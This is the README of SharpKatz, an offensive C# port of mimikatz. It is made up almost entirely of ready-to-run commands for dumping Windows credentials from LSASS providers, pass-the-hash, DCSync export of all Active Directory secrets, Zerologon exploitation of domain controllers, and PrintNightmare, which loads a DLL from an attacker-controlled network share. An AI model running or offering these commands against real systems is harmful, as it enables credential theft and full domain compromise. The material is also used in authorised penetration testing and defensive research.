 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### Pth

```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```SharpKatz.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by username using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by GUID using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Export the entire dataset from AD to a file created in the current user's temp forder using alternative credentials<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```SharpKatz.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```SharpKatz.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 

### PrintNightmare CVE-2021-1675 - CVE-2021-34527

```SharpKatz.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll```<br>
Perform PrintNightmare attack <br>
<br>
```SharpKatz.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll --AuthUser user --AuthPassword password --AuthDomain dom```<br>
Perform PrintNightmare attack with provided credentials<br>
<br>

## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) by [xpn](https://twitter.com/_xpn_).<br>
<br>
